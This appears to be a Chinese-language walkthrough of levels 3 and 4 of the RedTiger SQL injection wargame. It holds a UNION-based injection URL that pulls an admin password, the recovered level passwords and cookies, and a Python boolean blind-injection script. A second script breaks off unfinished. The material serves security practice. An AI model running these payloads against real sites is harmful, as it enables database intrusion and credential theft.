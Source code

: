 爆密码：
```
原语句：
http://redtiger.labs.overthewire.org/level3.php?usr=spoock' union select 1,password,3,4,5,6,7 from level3_users where username=0x41646d696e #"

加密后：
http://redtiger.labs.overthewire.org/level3.php?usr=MDI0MTk5MDEyMTc2MTI5MjI2MjE2MDI0MjE1MTExMTgwMTQ3MDcxMjM5MDEyMDAwMTc5MDA0MjU0MDMwMDQ1MjE4MjQzMTM1MDA1MTY5MjIxMTM5MjM0MDYyMjA5MjIwMDU1MDUyMjI4MjAyMTUxMjI3MDQwMTA0MjMxMjIwMDM5MTM2MTYzMTczMDY0MTk5MDcxMTM2MTE1MDkyMjE3MTY5MDkzMDYxMTgxMTY1MDU3MTE4MDg0MTUxMDM0MDg1MTI1MDU1MTIzMjAwMTMwMDk1MTQ1MjE3MDcxMDM2MTQzMTk4MTIyMDM5MTQ3MDE5MDM4MTQzMDQ5MjAyMTUwMDc1MDQ3MTYwMTE5
```
得到密码：thisisaverysecurepasswordEEE5rt
得到下一关的：there_is_no_bug 

# level 4

布尔的盲注

```bash

import string
from re import *
from urllib.request import *

answer = ""
char = string.printable
 cookies  = {   "level2login": "4_is_not_random",
        "level3login": "feed_your_cat_before_your_cat_feeds_you",
        "level4login": "there_is_no_bug",
        "level5login": "there_is_a_truck"}
url = "http://redtiger.labs.overthewire.org/level4.php?id=1%20and%201=(select%20count(*)%20from%20level4_secret%20where%20substr(keyword,{0},1)='{1}')"

for q in range(1, 22):
    for i in char:
        test = (url.format(q, i))
        request = Request(test, None, headers=cookies)
        res = urlopen(request)
        s = res.read().decode()
        if (findall("Query returned 1 rows.", s)):
            print("{0}  ".format(q) + i)
            answer += i
            break

print(answer)
```

```bash
import re
import requests
def exe_get(url):
    cookies = {
        "level2login": "4_is_not_random",
        "level3login": "feed_your_cat_before_your_cat_feeds_you",
        "level4login": "there_is_no_bug",
        "level5login": "there_is_a_truck"
    }
    response = requests.get(url, cookies=cookies)
    html = response.text
    match = re.search('0', html)
    # 表示值偏大
    if match:
        return -1
```